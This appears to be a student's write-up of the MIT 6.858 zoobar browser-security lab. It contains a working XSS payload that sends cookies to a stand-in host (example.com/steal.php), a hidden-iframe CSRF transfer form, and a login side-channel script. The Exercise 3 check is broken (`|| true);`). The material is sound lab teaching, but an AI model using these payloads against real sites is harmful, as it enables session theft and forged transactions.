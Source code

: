 ##Browser security

###Exercise 1: Cookie Theft

The payload for the exercise consists from several parts:

    <script>
    document.addEventListener("DOMContentLoaded", theDomHasLoaded, false); //Wait that DOM has loaded in the page so we modify the warning text message class
    function theDomHasLoaded(e) { 
    document.getElementsByClassName("warning")[0].style.visibility = 'hidden'; // this hides the red warning message from the page
    } 
    new Image().src = 'http://example.com/steal.php?cookies=' + encodeURIComponent(document.cookie); //this is the payload to steal the victims cookie
    </script>

Finally we URL encode the whole payload and include it as part of the URL. The payload also requires that we include ""> and </ in the beginning and the end so that the exploit works properly.

    ""><script>document.addEventListener("DOMContentLoaded", theDomHasLoaded, false);function theDomHasLoaded(e) { document.getElementsByClassName("warning")[0].style.visibility = 'hidden';} new Image().src = 'http://example.com/steal.php?cookies=' + encodeURIComponent(document.cookie);</script></
    
localhost:8080/zoobar/index.cgi/users?user=admin%22%22%3e%3c%73%63%72%69%70%74%3e%64%6f%63%75%6d%65%6e%74%2e%61%64%64%45%76%65%6e%74%4c%69%73%74%65%6e%65%72%28%22%44%4f%4d%43%6f%6e%74%65%6e%74%4c%6f%61%64%65%64%22%2c%20%74%68%65%44%6f%6d%48%61%73%4c%6f%61%64%65%64%2c%20%66%61%6c%73%65%29%3b%66%75%6e%63%74%69%6f%6e%20%74%68%65%44%6f%6d%48%61%73%4c%6f%61%64%65%64%28%65%29%20%7b%20%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%73%42%79%43%6c%61%73%73%4e%61%6d%65%28%22%77%61%72%6e%69%6e%67%22%29%5b%30%5d%2e%73%74%79%6c%65%2e%76%69%73%69%62%69%6c%69%74%79%20%3d%20%27%68%69%64%64%65%6e%27%3b%7d%20%6e%65%77%20%49%6d%61%67%65%28%29%2e%73%72%63%20%3d%20%27%68%74%74%70%3a%2f%2f%65%78%61%6d%70%6c%65%2e%63%6f%6d%2f%73%74%65%61%6c%2e%70%68%70%3f%63%6f%6f%6b%69%65%73%3d%27%20%2b%20%65%6e%63%6f%64%65%55%52%49%43%6f%6d%70%6f%6e%65%6e%74%28%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29%3b%3c%2f%73%63%72%69%70%74%3e%3c%2f

###Exercise 2: Cross-Site Request Forgery

Below is provided the HTML and JavaScript code for the CSRF attack that will transfer 10 zoobars from the victim to the user 'attacker' and redirect the victim to other site.

    <html>
    <body>
        <form name="csrf" action="http://localhost:8080/zoobar/index.cgi/transfer" method="POST" target="iframe">
            <input type="hidden" name="zoobars" value="10" />
            <input type="hidden" name="recipient" value="attacker" />
        </form>
        <iframe style="display:none" id="iframe" name="iframe" frameborder="0"></iframe>
        <script> 
            document.getElementById("iframe").onload = function() {
                window.location.href = "http://css.csail.mit.edu/6.858/2014/";
            }
            document.forms[0].submit();
        </script>
    </body>
    </html>

###Exercise 3: Side Channels and Phishing

In this exercise we can retrieve the information from the zoobarjs file to see if the user is logged in or not. If user is logged in the file will include information about how many zoobars the user has. We can use this information in conjunction with JavaScript to check if the user, who visits the attackers site is logged in, since we can check if the file returns the amount of zoobars.

    <script src="http://localhost:8080/zoobar/index.cgi/zoobarjs"></script>
    <script> 
    //if user is logged in transfer users zoobar to the attackers account
        var zoobars = myZoobars;
        if (zoobars || true); {
        location.href = "answer-2.html"; //launch the CSRF attack if user is logged in
        }
    </script>

The answer-2.html file must be located in the same folder as the answer-3.html file so that the CSRF attack works as expected.

###Exercise 4: Profile Worm
